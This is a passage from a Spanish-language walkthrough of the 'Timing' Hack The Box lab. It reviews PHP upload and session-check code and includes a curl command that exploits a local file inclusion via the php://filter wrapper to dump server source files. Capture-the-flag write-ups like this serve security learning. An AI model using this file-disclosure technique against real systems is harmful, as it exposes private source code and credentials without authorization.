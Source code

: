 ```php
    $error = "This extension is not allowed.";
}

if (empty($error)) {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        echo "The file has been uploaded.";
    } else {
        echo "Error: There was an error uploading your file.";
    }
} else {
    echo "Error: " . $error;
}
?>
```

Lo más importante es que vemos que se hace inclusión de otro archivo php al que podemos echarle un ojo:

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=admin_auth_check.php" | base64 -d
```

```php
<?php

include_once "auth_check.php";

if (!isset($_SESSION['role']) || $_SESSION['role'] != 1) {
    echo "No permission to access this panel!";
    header('Location: ./index.php');
    die();
}
```

Aquí vemos que se está comprobando que si nuestra sesión no equivale a 1, entonces nos redirige automáticamente al **`index.php`**
Podemos seguir analizando archivos php, vamos a revisar el **`profile.php`** para ver qué tiene.

```php
<?php
include_once "header.php";

include_once "db_conn.php";

$id = $_SESSION['userid'];


// fetch updated user
$statement = $pdo->prepare("SELECT * FROM users WHERE id = :id");
$result = $statement->execute(array('id' => $id));
$user = $statement->fetch();


?>

<script src="js/profile.js"></script>
...[snip]...
```
